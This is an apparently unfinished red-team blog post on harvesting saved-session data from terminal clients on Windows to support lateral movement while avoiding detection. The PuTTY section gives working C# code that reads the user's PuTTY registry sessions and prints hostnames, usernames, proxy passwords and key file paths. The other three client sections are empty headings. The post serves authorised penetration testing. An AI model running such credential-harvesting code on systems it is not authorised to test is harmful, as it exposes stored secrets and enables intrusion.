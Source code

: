 ```yaml
---
title: "Red Teaming Power Users Pt. 1 - Terminals Programs"
last_modified_at: 2016-03-09T16:20:02-05:00
categories:
  - Red Team
  - Hacking
  - Enumeration
tags:
  - PuTTY
  - MTPuTTY
  - MobaXTerm
---
```


While performing a Red Team, you may occasionally find yourself on a Power Users box, with no obvious ways to escalate privileges. You could start scanning the network to try to identify boxes where your current user context DOES have administrator privilege, then move laterally to that location. But what about if you want to limit the amount of network traffic you're generating in order to avoid detection by the Blue Team? In this series of posts, I'm going to discuss different technologies in use by Power Users and how you can use them for different attacks.

Part 1 is going to discuss common Terminal applications that you could use for Enumeration, Lateral Movement, and Privilege Escalation. Specifically we're going to discuss the following applications:
* PuTTY
* MTPuTTY
* MobaXTerm
* KiTTY

### PuTTY
[PuTTY](https://www.putty.org/) is a pretty standard SSH and telnet client. It's one of the most popular clients out there and will likely be the one you see on your assessments. Like the other applications in this post, it has the ability to save user sessions for easier access. Each saved session can contain multiple configuration options which will be dependant on what your user decides to save. From an enumeration standpoint, we're mainly going to be interested in uncovering the following items:
* Username
* Hostname/Port
* Credential Information (Password/Keys)

The good news for us is, that it's super easy to gain access to all the information we need. PuTTY while being easy to use, stores all of it's information in cleartext in the registry. Each session is stored under a registry key located at `HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\`

<picture of reg>
  
The easiest way to enumerate this information is to use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) by [@Arvanaghi](https://twitter.com/arvanaghi), however, Powershell is quickly becoming more difficult to use in a stealthy way. Most people know I'm big into .NET development so here's some quick code I made to enumerate the information we need:

```
using System;
using Microsoft.Win32;

namespace PuTTYCheck
{
    class Program
    {
        static void Main(string[] args)
        {
            var reg = Registry.CurrentUser.OpenSubKey(@"Software\SimonTatham\PuTTY\Sessions\");
            foreach (string subKeyName in reg.GetSubKeyNames())
            {
                try
                {
                    using (RegistryKey
                        tempKey = reg.OpenSubKey(subKeyName))
                    {
                        Console.WriteLine(tempKey.Name);
                        Console.WriteLine("HostName: {0}", tempKey.GetValue("HostName"));
                        Console.WriteLine("Protocol: {0}", tempKey.GetValue("Protocol"));
                        Console.WriteLine("PortNumber: {0}", tempKey.GetValue("PortNumber"));
                        Console.WriteLine("ProxyPort: {0}", tempKey.GetValue("ProxyPort"));
                        Console.WriteLine("ProxyUsername: {0}", tempKey.GetValue("ProxyUsername"));
                        Console.WriteLine("ProxyPassword: {0}", tempKey.GetValue("ProxyPassword"));
                        Console.WriteLine("ProxyTelnetCommand: {0}", tempKey.GetValue("ProxyTelnetCommand"));
                        Console.WriteLine("UserName: {0}", tempKey.GetValue("UserName"));
                        Console.WriteLine("UserNameFromEnvironment: {0}", tempKey.GetValue("UserNameFromEnvironment"));
                        Console.WriteLine("LocalUserName: {0}", tempKey.GetValue("LocalUserName"));
                        Console.WriteLine("PublicKeyFile: {0}", tempKey.GetValue("PublicKeyFile"));
                        Console.WriteLine("RemoteCommand: {0}", tempKey.GetValue("RemoteCommand"));
                        Console.WriteLine("SSHManualHostKeys: {0}", tempKey.GetValue("SSHManualHostKeys"));
                        Console.WriteLine("===================================================");
                    }
                }
                catch (Exception e)
                {
                    Console.WriteLine(e.Message);
                }
            }
        }
    }
}
```

### MTPuTTY



### MobaXTerm



### KiTTY
